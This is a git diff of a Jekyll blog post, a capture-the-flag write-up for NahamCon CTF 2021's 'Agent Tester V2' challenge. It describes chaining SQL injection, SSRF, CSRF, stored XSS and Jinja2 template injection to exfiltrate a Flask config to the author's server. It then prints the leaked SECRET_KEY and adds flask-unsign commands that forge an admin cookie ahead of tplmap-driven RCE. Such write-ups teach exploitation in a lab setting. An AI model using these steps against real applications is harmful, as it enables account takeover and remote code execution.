

Before and after one commit to thegoonies/thegoonies.github.io, a Jekyll site: the page built from _posts/2021-03-15-nahamconctf-2021-agent-tester-v2.md, in a window 1280 px wide and 900 px high, scrolled down 3136 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update 2021-03-15-nahamconctf-2021-agent-tester-v2.md

````diff
--- a/_posts/2021-03-15-nahamconctf-2021-agent-tester-v2.md
+++ b/_posts/2021-03-15-nahamconctf-2021-agent-tester-v2.md
@@ -16,7 +16,7 @@ tags: [ctf, NahamCon CTF, web]
  >
  > Source: https://ctf.nahamcon.com/files/354c72ad810a5c9e05c55bc3c6cb6e35/agenttesterV2.zip or [mirror](https://github.com/sajjadium/CTFium/)
 
-Union SQLi via websocket to SSRF bot to my own site hosting a CSRF to make bot update its profile with a PXSS in the `about` field. The XSS exploits a Jinja2 SSTI on `/debug` and exfils the Flask config back to my own server. Forge admin JWT using `SECRET_KEY` and exploit SSTI directly to gain RCE.
+Union SQLi via websocket to SSRF bot to my own site hosting a CSRF to make bot update its profile with a PXSS in the `about` field. The XSS exploits a Jinja2 SSTI on `/debug` and exfils the Flask config back to my own server. Forge admin cookie using `SECRET_KEY` and exploit SSTI directly to gain RCE.
 
 Surprisingly my solution was unintended, see the author's [write-up](https://github.com/jorgectf/Created-CTF-Challenges/tree/main/challenges/AgentTester%20@%20NahamConCTF%202021) for the intended solution (or [this](https://github.com/b4bergi/ctf-writeups/blob/main/nahamcon-2021/AgentTesterV2.md) one by [@bergi](https://twitter.com/alkiiis)).
 
@@ -66,7 +66,14 @@ Decode the Flask config.
 <Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': '1L5&wqXM+kz5nIh4!Rz6Ufo^iY?aRyV2', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'auth2', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:///DB/db.sqlite', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
 ```
 
-Forge the admin JWT cookie using the compromised `SECRET_KEY` and run [tplmap](https://github.com/epinna/tplmap) to automagically exploit the SSTI.
+Forge the admin cookie using the compromised `SECRET_KEY`.
+```console
+$ pip install flask-unsign # https://github.com/Paradoxis/Flask-Unsign
+$ flask-unsign --sign --cookie '{"id":1}' --secret '1L5&wqXM+kz5nIh4!Rz6Ufo^iY?aRyV2'
+eyJpZCI6MX0.YE9lrw.elOMaOW2TjIXYArR8BGPmBoV50g
+```
+
+Run [tplmap](https://github.com/epinna/tplmap) to automagically exploit the SSTI.
 <!-- {% raw %} -->
 ```console
 $ git clone https://github.com/epinna/tplmap && cd tplmap
````
